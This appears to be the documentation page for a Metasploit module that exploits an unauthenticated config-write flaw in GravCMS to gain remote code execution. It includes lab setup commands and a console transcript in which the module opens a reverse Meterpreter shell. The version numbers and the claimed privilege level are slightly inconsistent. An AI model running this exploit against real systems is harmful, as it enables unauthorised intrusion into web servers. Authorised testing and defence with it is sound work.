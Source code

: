 ## Vulnerable Application

### Description

This module exploits arbitrary config write/update vulnerability to achieve remote code execution. Unauthenticated users can execute a
terminal command under the context of the web server user.

In versions 1.10.10 and earlier, an unauthenticated user can execute some methods of administrator controller without needing any
credentials.Particular method execution will result in arbitrary YAML file creation or content change of existing YAML files on the system.

Technical details about the vulnerability can be found at
[here](https://pentest.blog/unexpected-journey-7-gravcms-unauthenticated-arbitrary-yaml-write-update-leads-to-code-execution/) .

### Setup

GravCMS requires only PHP and a web server to run. Please visit following url to find out required php packages.

[https://learn.getgrav.org/17/basics/requirements](https://learn.getgrav.org/17/basics/requirements)

```
wget https://getgrav.org/download/core/grav-admin/1.7.8
unzip -x 1.7.8
chown -R www-data:www-data grav-admin
```

Once you finished the installation, visit the GravCMS and complete the admin user creation process.

Scheduler is not enabled in the default installation. It has a very important role during the exploitation.
To finish up the installation, execute the following command to enable the scheduler.

```
(crontab -l; echo "* * * * * cd /var/www/html/grav-admin;/usr/bin/php bin/grav scheduler 1>> /dev/null 2>&1") | crontab -
```

## Verification Steps

1. Follow [Setup](#setup) and install the application.
2. Run `msfconsole`
3. Set `RHOSTS`
4. Set `LHOST`
5. Execute `run` command.
6. You should get a shell.

## Options

Set `TAGETURI` if the GravCMS is installed at a custom path.

## Scenarios

```
msf6 >
msf6 > use exploit/linux/http/gravcms_exec
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/gravcms_exec) > set RHOSTS 192.168.179.131
RHOSTS => 192.168.179.131
msf6 exploit(linux/http/gravcms_exec) > set LHOST 172.26.253.227
LHOST => 172.26.253.227
msf6 exploit(linux/http/gravcms_exec) > options

Module options (exploit/linux/http/gravcms_exec):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.179.131  yes       The target host(s), range CIDR identifier, or hosts file with
                                        syntax 'file:<path>'
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.26.253.227   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(linux/http/gravcms_exec) > check
[*] 192.168.179.131:80 - The target appears to be vulnerable.
msf6 exploit(linux/http/gravcms_exec) > run

[*] Started reverse TCP handler on 172.26.253.227:4444
[*] Sending request to the admin path to generate cookie and token
[+] Cookie and CSRF token successfully extracted !
[*] Implanting payload via scheduler feature
[+] Scheduler successfully created ! Wait for 1 minute...
[*] Sending stage (39282 bytes) to 172.26.240.1
[*] Cleaning up the the scheduler...
[+] The scheduler config successfully cleaned up!
[*] Meterpreter session 1 opened (172.26.253.227:4444 -> 172.26.240.1:53912) at 2021-04-11 15:32:01 +0300

meterpreter > pwd
/var/www/html/grav-admin
meterpreter > getuid
Server username: root (0)
```
